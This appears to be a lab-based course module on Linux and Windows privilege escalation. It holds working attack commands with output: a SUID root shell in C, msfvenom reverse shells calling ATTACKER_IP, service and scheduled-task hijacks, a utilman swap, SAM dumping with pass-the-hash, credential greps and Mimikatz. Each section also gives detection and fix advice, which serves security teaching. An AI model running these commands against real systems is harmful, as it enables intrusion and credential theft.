Root by controlling where a privileged program looks for a command. Absolute paths kill this instantly.
NFS no_root_squash — Forge a root Binary
An export with no_root_squash trusts your root. Make a SUID root shell on the mount, run it on the target.
An NFS export with no_root_squash trusts the client's root as the server's root. Mount it from a box you control, create a root-owned SUID binary in it, then run that binary on the target - instant root.
Normally NFS demotes a remote root to nobody (root squash). no_root_squash turns that off - your root on the mount is real root on the target's disk. You forge a SUID key on your side and use it on theirs.
cat /etc/exports # on target: look for no_root_squash
showmount -e TARGET_IP # from attacker: list exports

- Mount the export from your attacker box (as root).🔴 On your Kali (attacker)
mkdir /mnt/nfs mount -o rw TARGET_IP:/shared /mnt/nfs
Mount. You now write into the export as root from your machine. - Plant a root-owned SUID shell, then run it on the target.🔴 On your Kali (attacker)
// nfs.c int main(){ setgid(0); setuid(0); system("/bin/bash -p"); } gcc /mnt/nfs/nfs.c -o /mnt/nfs/nfs && chmod +s /mnt/nfs/nfs
Forge the key. Compiled and given the SUID bit - owned by root because you were root on the mount. ls -la /shared/nfs -rwsr-sr-x 1 root root ... nfs /shared/nfs id uid=0(root)The SUID binary you made on your box runs as root on theirs.
Root. Back on the target's low-priv shell, running the planted SUID binary gives uid=0. ✓ Verification
- On the target, /shared/nfs gives a shell with uid=0(root)
Detect: new SUID root binaries on exported paths (FIM); unusual NFS mounts. Fix: use root_squash (default), export read-only where possible, restrict to trusted hosts and nosuid.
Root by forging a SUID binary on a share the server trusts. One export option is the whole vulnerability.
Kernel Exploits — the Last Resort
When misconfigs run dry, an outdated kernel may hand you root via a public exploit. Powerful, but it can crash the box - use it last.
When every misconfig check comes back clean, an outdated kernel may still have a public local-root exploit (DirtyCow, DirtyPipe, PwnKit). It is powerful - and risky: a bad exploit can panic the box. Try everything else first.
The kernel is the building's foundation. A crack in it bypasses every lock on every door at once. You match the exact kernel/distro version to a known bug and run its exploit.
uname -a # kernel version + arch
cat /etc/os-release # distro + release
searchsploit linux kernel 3.13 # match a public exploitLab - kernel version to root
- Fingerprint the kernel and find a matching exploit.🔴 Kali + 🟢 victim — follow the comments
uname -r # e.g. 3.13.0-24-generic searchsploit dirtycow # or: PwnKit / DirtyPipe by versionuname -r 3.13.0-24-generic searchsploit dirtycow Linux Kernel 2.6-3.x - DirtyCow (local root)Match the exact version - the wrong exploit crashes the box.✓ Verification
- Kernel version pinned to a specific public exploit (CVE)
- Compile and run it (PwnKit is the safest modern pick).🟢 On the victim (target)
# PwnKit (CVE-2021-4034) - pkexec, works on many default installs git clone <pwnkit> && cd PwnKit && make ./PwnKit # -> instant root shell, no reboot risk of memory exploits./PwnKit [+] exploiting pkexec ... id uid=0(root) gid=0(root)PwnKit is reliable and does not touch kernel memory - low crash risk.✓ Verification
- id shows uid=0(root)
Memory-corruption kernel exploits (DirtyCow/DirtyPipe) can hang or crash the target. In a lab take a snapshot first; on a real engagement, get sign-off and prefer logic bugs like PwnKit.
Detect: a compiler running from a shell, unknown ELF binaries executed, kernel oops/segfaults in logs, pkexec abuse. Fix: patch the kernel and userland (pkexec/polkit), remove compilers from prod, enable exploit mitigations.
Root by exploiting the OS itself when nothing was misconfigured. Always uname -a - but reach for it last, and prefer PwnKit-style logic bugs over memory exploits.
Passwords & SSH Keys — Loot Your Way Up
Reused passwords, config files, history and world-readable keys hand you another user's - often root's - access. No exploit required.
People reuse passwords and leave secrets lying around - in configs, history files, backups and private keys. Often the fastest path to root (or another user) is simply to read a credential the box already stored.
The key left under the mat. Web app configs, .bash_history, backup files and world-readable SSH keys hand you other users' access - and one of them is often root or a sudoer.
grep -rniE "pass|pwd|secret|api[_-]?key" /etc /var/www /opt /home 2>/dev/null
cat ~/.bash_history ~/.mysql_history ~/.*_history 2>/dev/null
find / -name "id_rsa" -o -name "*.pem" 2>/dev/nullLab - loot a credential, escalate
- Hunt for stored secrets.🟢 On the victim (target)
grep -rni password /var/www 2>/dev/null # web app DB creds cat ~/.bash_history # a command someone typed with a passwordgrep -rni password /var/www 2>/dev/null config.php: $db_pass = "Sup3rS3cret!" cat ~/.bash_history mysql -u root -pSup3rS3cret!One reused password is often the whole escalation.✓ Verification
- A cleartext password or key belonging to root or a sudoer
- Use a found SSH key or password to become that user.🟢 On the victim (target)
chmod 600 id_rsa ssh -i id_rsa root@127.0.0.1 # or: su root (with the found password) # then: sudo -l (does the reused password unlock sudo?)su root Password: Sup3rS3cret! id uid=0(root)Try the found password against su, sudo and ssh.✓ Verification
- A shell as root or another privileged user via looted creds
~/.ssh/authorized_keys (plant your key), /var/backups, cron scripts, .git-credentials, and env files. And always test a found password for reuse across services.
Detect: mass file reads/greps by a user, SSH logins from unusual keys, access to backup/config paths. Fix: a secrets manager, chmod 600 keys, no plaintext creds in web roots, clear shell history for service accounts.
Escalation with zero exploit - just a credential the box already held. Enumeration is looting: grep everything, then reuse what you find.
Lab 1 — A SUID Binary Becomes a Root Shell
The most common Linux privesc in the exam and the real world: find a SUID binary, look it up on GTFOBins, paste one line, become root.
From your low-priv shell, find every SUID binary, spot one that should not be SUID (or is a known GTFOBins target), and use its documented one-liner to spawn a shell that runs as its owner — root. Ninety seconds of enumeration, one line of abuse.
Your low-priv shell on the Linux lab target (or the capstone box later). The SUID misconfig is seeded for the lab — a real box may or may not have one, which is exactly why you enumerate.
-
Find the SUID binaries.
🟢 On the victim (target)
find / -perm -4000 -type f 2>/dev/null # ... /usr/bin/find <-- find should NOT normally be SUIDfind / -perm -4000 -type f 2>/dev/null /usr/bin/passwd /usr/bin/sudo /usr/bin/mount /usr/bin/find <-- not normally SUID ls -la /usr/bin/find -rwsr-xr-x 1 root root ... /usr/bin/findThe s in -rwsr-xr-x is the SUID bit — it runs as root.✓ Verification
- A list of SUID binaries; one of them is a GTFOBins target (e.g. find, cp, vim, env, nmap)
-
Look it up on GTFOBins and run the documented SUID one-liner.
🟢 On the victim (target)
# gtfobins.github.io/gtfobins/find/#suid /usr/bin/find . -exec /bin/sh -p \; -quit # the -p keeps the effective UID (root); you get a root shellfind . -exec /bin/sh -p \; -quit id uid=1000(lowuser) gid=1000(lowuser) euid=0(root) whoami root-p is the key: without it the shell drops the root euid.✓ Verification
- You drop into a shell where id shows euid=0(root)
-
Verify and record.
🟢 On the victim (target)
id # euid=0(root) cat /root/root.txt # proof / flag # stabilise a full root shell if needed: /usr/bin/find . -exec /bin/bash -p \; -quit✓ Verification
- id shows euid=0(root)
- Engagement-report row: host, low-priv user, SUID find (GTFOBins) → root, proof
The technique is identical for any GTFOBins SUID binary — look up whichever one your box has. vim, nmap (interactive mode), env, cp (overwrite /etc/passwd), bash -p — each has its own one-liner on the site.
Root from a single misconfigured binary and a lookup. This is the highest-frequency Linux privesc there is — and the countermeasure is one line too: chmod -s the binary, and never SUID a shell-capable program.
Lab 2 — Break Out of sudo, or Ride a cron Job
Two paths to root on the same box: a sudo right you can break out of, and a writable script root runs on a schedule. Do at least one.
Check sudo -l for a command you can break out of via GTFOBins, and check cron for a writable root-run script. Pick whichever your box offers and take it to root. Both are among the most common real-world Linux privescs.
Your low-priv shell on the Linux lab target. The sudo/cron misconfig is seeded for the lab. Do not run these techniques anywhere you were not given.
-
Path A — sudo break-out. If sudo -l shows a GTFOBins binary, break out of it.
🟢 On the victim (target)
sudo -l # (ALL) NOPASSWD: /usr/bin/less <-- less is on GTFOBins sudo less /etc/profile # inside less, type: !/bin/sh # => root shellsudo -l User lowuser may run the following commands: (ALL) NOPASSWD: /usr/bin/less sudo less /etc/profile :!/bin/sh id uid=0(root) gid=0(root)NOPASSWD + a GTFOBins binary = instant root.✓ Verification
- sudo less (or your binary) breaks out to a shell where id = root
-
Path B — writable cron. Find a writable script root runs, and plant a payload.
🟢 On the victim (target)
cat /etc/crontab # * * * * * root /opt/backup.sh ls -la /opt/backup.sh # -rwxrwxrwx (writable!) echo 'chmod +s /bin/bash' >> /opt/backup.sh # wait one minute, then: /bin/bash -p # euid=0✓ Verification
- After the next cron run, /bin/bash -p gives a root shell (euid=0)
-
Verify and record.
🟢 On the victim (target)
id ; cat /root/root.txt # record WHICH path worked and the exact misconfig✓ Verification
- id = root via your chosen path
- Engagement-report row: sudo less break-out or writable cron /opt/backup.sh → root
If the cron script is not writable, plan B fails silently — you wait a minute and nothing happens. That is the lesson: confirm the misconfig (the writable bit) before you rely on it. linPEAS flags candidates; the ls -la proves them.
Root by a second, independent path — and the habit of reading sudo -l and cron on every box. The countermeasure: least-privilege sudo, no NOPASSWD on break-out binaries, and never a world-writable script in root's cron.
Break — 15 Minutes
Half A done — you take a Linux box from a low-priv shell to root six ways. Stretch, then Half B: Windows → SYSTEM.
Break — 15 Minutes
Press start when the break begins.
Windows privilege escalation — service misconfigs, dangerous privileges/token abuse, stored credentials and quick wins, then winPEAS + Mimikatz.
The Windows Privesc Surface — Where SYSTEM Leaks
Different OS, same loop. Four categories give SYSTEM on Windows to a user who enumerated. winPEAS finds them; you judge them.
Windows privesc looks nothing like Linux — no SUID, no sudo. Instead: services you can tamper with, token privileges you should not hold, installer policies left on, and credentials lying in files and memory. Learn the four and winPEAS output makes sense.
SERVICESThree ways a service gives SYSTEM
Services run as SYSTEM. If you can change what one runs, you run as SYSTEM. (1) Weak service permissions — you can reconfigure its binary path (sc config). (2) Unquoted service path with a space — drop a binary earlier in the path. (3) Writable service binary — replace the exe. Find them with winPEAS or accesschk. Lab 3.
TOKENSPrivileges you should not hold
whoami /priv lists your token privileges. SeImpersonatePrivilege (common on service accounts — IIS, MSSQL) lets a "potato" exploit impersonate a SYSTEM token. SeBackupPrivilege reads any file (the SAM). These are the fastest Windows privescs. Lab 3.
AlwaysInstallElevatedAny MSI as SYSTEM
If both registry keys are set to 1, any .msi installs as SYSTEM — even one you built with msfvenom. reg query HKLM\...\Installer /v AlwaysInstallElevated. A whole-domain misconfiguration when pushed by GPO.
STORED CREDSPasswords left lying around
Credentials in unattend.xml, the registry, saved RDP/PuTTY sessions, and — the big one — in LSASS memory. Mimikatz dumps plaintext passwords, NT hashes and Kerberos tickets straight from LSASS. Lab 4. A dumped admin password often beats any exploit.
whoami /priv # token privileges (look for SeImpersonate)
whoami /groups # am I in a privileged group?
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevatedYou should see: your token privileges and the AlwaysInstallElevated state in three lines. SeImpersonatePrivilege in that first output is a near-guaranteed SYSTEM (Lab 3).
On Windows you rarely "exploit" — you abuse a misconfiguration. A service you can edit, a token you should not have, a password left in a file. winPEAS finds them; GTFOBins' Windows cousin is LOLBAS (lolbas-project.github.io).
Service Misconfigurations — a Path to SYSTEM
A service is an exe run as an account (often SYSTEM). Weakness in its binary, path, or DACL lets you run code as SYSTEM.
Third-party software installs services that run as SYSTEM. If you can touch the service's binary, its unquoted path, or its DACL, you make SYSTEM run your code - no exploit needed.
A service is a vending machine with the manager's keycard (SYSTEM). Swap the product (binary), trick it onto the wrong shelf (unquoted path), or reprogram it (DACL) - it dispenses your payload as SYSTEM.
sc qc <ServiceName> :: BINARY_PATH_NAME + run-as account
icacls "C:\Path\service.exe" :: (M)/(F) for Users = writable
accesschk64.exe -qlc <svc> :: weak service DACL?

- Build a service payload and place/repoint it, then restart.🔴 Kali + 🟢 victim — follow the comments
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev.exe :: writable binary -> overwrite it; weak DACL -> repoint it: sc config <svc> binPath= "C:\Users\pub\rev.exe" obj= LocalSystem sc stop <svc> & sc start <svc>sc config THMService binPath= "C:\...\rev.exe" obj= LocalSystem sc stop THMService & sc start THMService connection received on attacker nt authority\systemUse -f exe-service so the SCM start/stop protocol is handled.✓ Verification
- Reverse shell as nt authority\system
Detect: Event 7045/7040 (service installed/changed); sc config from non-admins; service-binary overwrites. Fix: quote paths, tighten binary ACLs + service DACLs, least-privilege service accounts.
SYSTEM by attacking a service's binary, path, or DACL. winPEAS flags all three.
Dangerous Privileges — SYSTEM From Your Token
Read whoami /priv first. SeImpersonate (potato), SeBackup/Restore (Pass-the-Hash), and SeTakeOwnership (utilman) each reach SYSTEM.
Windows splits admin power into privileges. A few - SeImpersonate, SeBackup/Restore, SeTakeOwnership - each equal SYSTEM. The win is often already in your token.
whoami /priv :: cross-reference Enabled ones with Priv2AdminSeImpersonate -> potato
Service accounts (IIS/MSSQL) hold SeImpersonate. A potato forces a SYSTEM process to authenticate to you, then impersonates its token - SYSTEM.


SeBackup / SeRestore -> Pass-the-Hash
These read/write any file. Dump the SAM + SYSTEM hives, extract the Administrator hash, and log in with the hash.

reg save hklm\system system.hive & reg save hklm\sam sam.hive
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
impacket-psexec -hashes <LM>:<NT> administrator@TARGET_IPSeTakeOwnership -> hijack utilman
Take ownership of utilman.exe (runs as SYSTEM from the lock screen) and replace it with cmd.exe.
takeown /f C:\Windows\System32\Utilman.exe
icacls Utilman.exe /grant <you>:F
copy /y C:\Windows\System32\cmd.exe Utilman.exe
:: lock screen (Win+L) -> Ease of Access -> SYSTEM cmd
✓ Verification
- A shell / login as nt authority\system (or Administrator via PtH)
Detect: Event 4672 (special privileges) on odd accounts; Sysmon 10 (LSASS/hive access); a service account spawning SYSTEM shells. Fix: grant these privileges only where needed; patch; watch Backup Operators.
SYSTEM straight from your token. whoami /priv first - three privileges each equal game over.
Vulnerable Software — SYSTEM via an Outdated App
Enumerate installed software and versions, match a public local-privesc exploit, and let a vulnerable SYSTEM service escalate you.
Backup agents, DB tools and helper services ship local RPC/IPC components running as SYSTEM. One outdated version with a public exploit turns a low-priv shell into SYSTEM without touching Windows itself.
Every extra app is another door bolted onto the house. Don't pick the front door (Windows) - walk the perimeter and open the cheap add-on lock (an outdated app service as SYSTEM).
wmic product get name,version,vendor :: then research each versionCase study - Druva inSync 6.6.3
Druva inSync runs a local RPC server on 127.0.0.1:6064 as SYSTEM. A path-traversal bypasses the patch's check, so the SYSTEM service will run any command you send.

# the exploit script talks to 127.0.0.1:6064; change only the command:
$cmd = "net user pwned Passw0rd! /add & net localgroup administrators pwned /add"
✓ Verification
- Your new account is in the local Administrators group; elevated prompt works
Detect: new local admins (Event 4720/4732); low-priv processes hitting a local SYSTEM service port. Fix: patch third-party software, remove unused agents, restrict local RPC/IPC.
SYSTEM via an outdated app, not the OS. Enumerate versions, match a public exploit, prioritise local SYSTEM services.
Harvesting Stored Credentials
Windows stashes passwords in saved creds, unattended files, PowerShell history and the registry. Read them and runas the privileged account.
For convenience, Windows and its admins store passwords everywhere - saved credentials, unattended-install files, PowerShell history, and the registry. Reading them is often faster than any exploit, and one may belong to an admin.
A house where spare keys are taped to every drawer. You just open the usual drawers: cmdkey store, unattend.xml, PS history, and autologon in the registry.
cmdkey /list
findstr /si password *.xml *.ini *.txt *.config 2>nul
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"Lab - find a stored credential, use it
- Check saved creds and unattended-install files.🟢 On the victim (target)
cmdkey /list :: saved runas credentials type C:\Windows\Panther\Unattend.xml :: base64/cleartext admin password type %USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txtcmdkey /list Target: Domain:interactive=WORKGROUP\Administrator findstr /si password C:\Windows\Panther\Unattend.xml <Password>QWRtaW5QYXNzIQ==</Password>Unattend/sysprep files often hold the local admin password.✓ Verification
- A username + password (or a saved cred entry) for a privileged account
- Run as that account.🟢 On the victim (target)
runas /savecred /user:Administrator cmd.exe :: uses a saved cred :: or with a recovered password: runas /user:Administrator cmd.exe whoami :: administratorrunas /savecred /user:Administrator cmd.exe whoami win-target\administratorA saved cred = runas without knowing the password.✓ Verification
- A shell running as Administrator (or a privileged user)
Registry autologon (DefaultPassword), saved PuTTY/VNC/WinSCP sessions, web.config/connection strings, and Group Policy Preferences cpassword. If you already hold admin, Mimikatz pulls hashes from LSASS (see the winPEAS + Mimikatz lab).
Detect: cmdkey/reg query of Winlogon, reads of Unattend.xml, LSASS access (Sysmon 10). Fix: LAPS for local admin, delete unattend files, no plaintext in configs, clear PS history.
Admin from a password Windows stored for convenience - no exploit. Check the usual spots first, every time.
Other Quick Wins — Fast Paths to SYSTEM
AlwaysInstallElevated, writable scheduled tasks, writable startup, and admin GUIs each give SYSTEM in one step.
A few common misconfigs give SYSTEM in one step: AlwaysInstallElevated, a writable scheduled task, a writable startup folder, or a GUI app running as admin. winPEAS flags them - each is a short path to SYSTEM.
Unlocked side doors. You don't break the main lock - you find the door someone left open (a policy set to 1, a task file you can overwrite) and walk in as SYSTEM.
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
schtasks /query /fo LIST /v :: tasks, run-as, and their binariesLab A - AlwaysInstallElevated
- If both registry keys = 1, any MSI installs as SYSTEM.🔴 Kali + 🟢 victim — follow the comments
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f msi -o evil.msi msiexec /quiet /qn /i C:\Users\pub\evil.msi :: runs as SYSTEMreg query HKLM\...\Installer /v AlwaysInstallElevated AlwaysInstallElevated 0x1 msiexec /quiet /qn /i evil.msi shell received as nt authority\systemNeeds the key set in both HKCU and HKLM.✓ Verification
- Reverse shell as nt authority\system
Lab B - writable scheduled task / startup
- Overwrite the binary a privileged task runs, or drop into a writable Startup folder.🟢 On the victim (target)
schtasks /query /fo LIST /v | findstr /i "Task To Run Run As" icacls "C:\Scripts\backup.exe" :: (M)/(F) for you = overwrite it copy /y rev.exe "C:\Scripts\backup.exe" :: runs at next trigger, as its accounticacls C:\Scripts\backup.exe BUILTIN\Users:(M) copy /y rev.exe C:\Scripts\backup.exe task fires -> shell as SYSTEMSame idea as a writable service binary - here it is a task.✓ Verification
- A shell as the task's (often SYSTEM/admin) account after the trigger
A GUI app running as admin (use a File → Open dialog to launch cmd), startup entries you can edit, and modifiable services (see the Service Misconfig page). winPEAS tags all of these.
Detect: AlwaysInstallElevated set, msiexec of user-writable MSIs, changes to task/startup binaries. Fix: never enable AlwaysInstallElevated, tighten task/startup ACLs, least-privilege task accounts.
SYSTEM from a single policy or a writable file. These are the first things winPEAS flags - check them early.
Lab 3 — From a Low-Priv Windows Shell to SYSTEM
Enumerate the Windows surface, then take the fastest path your box offers — a token privilege or a service misconfig — to SYSTEM.
From your low-priv Windows shell (the WIN10 foothold, or a capstone box), run winPEAS, then escalate by whichever route the box exposes: a potato on SeImpersonate, a weak/unquoted service, or AlwaysInstallElevated. Aim for whoami = SYSTEM.
Your low-priv shell on WIN10-TGT01 (or a capstone box). The privesc route is seeded for the lab. Snapshot first — a broken service can need a revert.
-
Enumerate with winPEAS and read the red.
🟢 On the victim (target)
wp.exe quiet cmd fast # look for: SeImpersonate, modifiable services, unquoted paths, AlwaysInstallElevated✓ Verification
- winPEAS highlights at least one route (a token privilege, a service, or an installer policy)
-
Route A — token (potato). If you hold SeImpersonate:
🟢 On the victim (target)
whoami /priv | findstr Impersonate # SeImpersonatePrivilege Enabled PrintSpoofer.exe -i -c cmd # or: GodPotato.exe -cmd "cmd /c whoami"whoami /priv | findstr Impersonate SeImpersonatePrivilege Enabled PrintSpoofer.exe -i -c cmd [+] Found privilege: SeImpersonatePrivilege [+] Named pipe listening... [+] CreateProcessAsUser() OK whoami nt authority\systemOne privilege → SYSTEM. No exploit code — an abused feature.✓ Verification
- A new shell / command runs as NT AUTHORITY\SYSTEM
-
Route B — weak service. If a service is reconfigurable:
🟢 On the victim (target)
sc qc VulnSvc # BINARY_PATH_NAME + weak perms sc config VulnSvc binPath= "C:\Temp\rev.exe" sc stop VulnSvc & sc start VulnSvc # runs your exe as SYSTEM✓ Verification
- The service runs your payload as SYSTEM (catch the shell / add an admin)
-
Verify and record.
🟢 On the victim (target)
whoami # nt authority\system hostname # grab the flag / proof, then the SAM for good measure✓ Verification
- whoami = SYSTEM
- Engagement-report row: host, route (potato / service / AIE), landed as SYSTEM, proof
SYSTEM on Windows — from a misconfiguration, not a CVE. On this host, privilege escalation is now complete; what remains is looting it, which is the next lab (Mimikatz).
Once You're SYSTEM: Mimikatz and the Loot
SYSTEM is not the end — it is the key to LSASS. Mimikatz turns SYSTEM on one box into credentials for the whole network.
Being SYSTEM on one machine is control of that machine. But that machine's memory (LSASS) holds the plaintext passwords, NT hashes and Kerberos tickets of everyone who logged in — often including a domain admin. Mimikatz extracts them, and one of those credentials logs you into the next machine. This is how one foothold becomes a domain.
Mimikatz — the 7-part frame
| What it is | A post-exploitation tool that extracts secrets from Windows memory and the security subsystem — plaintext passwords, hashes, Kerberos tickets, and more. |
| Why it exists | Because Windows caches credentials in LSASS for single sign-on. Mimikatz reads that cache — turning local SYSTEM into network-wide credentials. |
| The method | Get SYSTEM (or SeDebug), run privilege::debug, then a sekurlsa:: or lsadump:: module. Take the loot back to pass-the-hash / a fresh login. |
| Real syntax | 🟢 On the victim (target) |
| Read the output | Per session: Username, NTLM hash, and often a cleartext Password. A domain-admin line here is game over for the domain. |
| What it feeds | Credentials → lateral movement (pass-the-hash from S5) → the next host → the engagement report's impact section. |
| SOC flip | Loud to modern EDR. Opening a handle to lsass.exe is Sysmon Event ID 10 — a top-tier detection. Defender/EDR flags Mimikatz on sight; real operators use LSASS-dump alternatives and evasion (S7). You will write this rule in Lab 8. |
tasklist /fi "imagename eq lsass.exe"
# then in mimikatz: privilege::debug => 'Privilege 20 OK'You should see: Privilege 20 OK means SeDebug is enabled and LSASS is readable — sekurlsa::logonpasswords will dump it (Lab 4).
SYSTEM on one box is credentials for the network. This is why privilege escalation matters beyond the single host — and why LSASS access is one of the most-monitored actions in any SOC.
